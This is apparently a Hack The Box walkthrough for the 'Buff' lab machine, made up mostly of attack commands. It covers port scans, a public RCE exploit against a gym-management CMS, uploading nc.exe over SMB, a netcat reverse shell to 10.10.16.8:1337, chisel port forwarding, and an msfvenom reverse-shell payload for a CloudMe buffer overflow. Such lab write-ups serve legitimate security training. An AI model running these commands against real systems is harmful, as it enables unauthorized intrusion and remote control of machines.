# [Buff](https://app.hackthebox.com/machines/buff)


```bash
nmap -p- --min-rate 10000 10.10.10.198 -Pn 
```




After knowing open ports (7680,8080), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p7680,8080 10.10.10.198 -Pn 
```


From enumeration, I see that it is CMS for Gym management system.




I searched publicly known exploit and found RCE exploit.




Let's use this exploit.

```bash
python2 exploit.py http://10.10.10.198:8080/
```

user.txt




Let's make interactive shell, for this we need to upload `nc.exe` into target machine.

1.First, we need to open SMB share.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```



2.Second, we need to download this into machine.

```bash
copy \\10.10.16.8\share\nc.exe \programdata\nc.exe
```




Let's use the exploit.

```bash
\programdata\nc.exe -e cmd 10.10.16.8 1337
```



We got reverse shell from port 1337.




I just look at the machine via `netstat -ano` command and see open port (8888).




I searched this port which belongs to **'CloudMe.exe'**.


Now, it's time to do `Port Forwarding`, for this I will use [Chisel](https://github.com/jpillora/chisel).


For this, we need to upload `chisel.exe` into target machine via SMB.

```bash
copy \\10.10.16.8\share\chisel_1.9.1_windows_amd64 c.exe
```




Let's use `chisel` to create connection  (PIVOTING).


1.First, run below command on attacker's machine.
```bash
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
```



2.Second, run below command on target's machine.
```bash
.\c.exe client 10.10.16.8:8000 R:8888:localhost:8888
```




I find `CloudMe 1.11.2 - Buffer Overflow (PoC)` exploit which is Buffer Overflow.

But we need to add our malicious reverse shell command into script via `msfvenom` command to generate.

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1337 -b '\x00\x0A\x0D' -f python -v payload
```




As we replaced we can run the script `python2 script.py`.


I got reverse shell from port (1337).




root.txt

